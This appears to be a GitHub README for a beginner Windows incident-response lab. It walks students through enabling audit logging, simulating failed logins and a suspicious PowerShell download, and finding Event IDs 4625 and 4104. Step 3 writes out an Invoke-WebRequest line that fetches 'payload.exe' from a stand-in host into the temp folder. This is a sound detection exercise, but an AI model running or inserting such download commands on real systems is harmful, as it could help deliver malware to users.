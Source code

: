 # 🔐 Day #11 – Incident Response Lab (Windows)

![Windows](https://img.shields.io/badge/System-Windows10%2F11-blue?style=flat-square&logo=windows)
![PowerShell](https://img.shields.io/badge/Tool-PowerShell-blue?style=flat-square&logo=powershell)
![SOC](https://img.shields.io/badge/Role-SOC%20Analyst-critical?style=flat-square&logo=security)
![Lab Status](https://img.shields.io/badge/Lab%20Status-Complete-success?style=flat-square)
![Stars](https://img.shields.io/github/stars/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Forks](https://img.shields.io/github/forks/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Last Commit](https://img.shields.io/github/last-commit/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![Repo Size](https://img.shields.io/github/repo-size/BecomingCyber/Incident-Response-Lab-Day11?style=flat-square)
![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)

## 🎯 Objective
Introduce the basics of incident response and simulate common incidents on Windows using built-in tools.

---

## 🧠 What is Incident Response?
Incident Response (IR) is a structured method to handle the aftermath of a cyberattack. It includes:
- Detecting the incident
- Containing the damage
- Investigating the root cause
- Restoring normal operations
- Documenting and reporting findings

---

## 🔄 NIST Incident Response Lifecycle
| Phase | Description |
|-------|-------------|
| 1. Preparation | Setup policies, logs, and tools |
| 2. Detection & Analysis | Identify potential incidents |
| 3. Containment, Eradication, Recovery | Isolate & clean systems |
| 4. Post-Incident | Review and update plans |

---

## 🧪 Lab Simulation: Unauthorized Access

### ✅ Preparation Steps:
1. Run `secpol.msc` ➜ Enable:
   - Audit Logon Events (Success & Failure)
   - Audit Process Creation
2. Enable PowerShell Logging:
   - Script Block Logging
   - Module Logging (via GPO or Registry)

---

### 🛠 Step 1: Simulate Failed Logins
- Lock screen (Win + L)
- Try 2–3 incorrect passwords

---

### 🔍 Step 2: Detect Event ID 4625
- Open **Event Viewer** ➜ `Windows Logs → Security`
- Filter by **Event ID: 4625**
- Note:
  - Account name
  - IP (if present)
  - Logon type

📸 Screenshot required: *Event ID 4625 result*

---

### 🧪 Step 3: Simulate Suspicious PowerShell
```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
---

### 🔍 Step 4: Detect PowerShell Event ID 4104

- Event Viewer ➜ Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
- Filter: **Event ID 4104**
- Identify the PowerShell command

📸 **Screenshot Required:** `Event ID 4104 result`

---

### 🔐 Step 5: Response Actions

- Kill the process in Task Manager
- Delete `payload.exe` from `%TEMP%`
- Record the following in `event_logs.txt`:
  - Username
  - Timestamps
  - Command line arguments

---

### 📝 Submission Instructions

📂 Add the following to your GitHub repo:
- ✅ `images/failed_login.png`
- ✅ `images/powershell_download.png`
- 🧾 Log contents: `event_logs.txt`

---

### 📚 Learnings

- Incident Response requires fast detection, visibility, and quick containment
- Windows Event Viewer provides critical log data
- PowerShell activity logs (Event ID 4104) reveal potentially malicious behavior

---

### 📌 Tags

`#SOCAnalyst` `#IncidentResponse` `#WindowsSecurity` `#EventViewer` `#PowerShellLogging`

---

### 📷 Add images in README

Place your images in the `/images/` folder and embed them like this:

Failed Login - Event ID 4625
![Failed Login - Event ID 4625](./images/failed_login.png)
PowerShell Download - Event ID 4104
![PowerShell Download - Event ID 4104](./images/powershell_download.png)
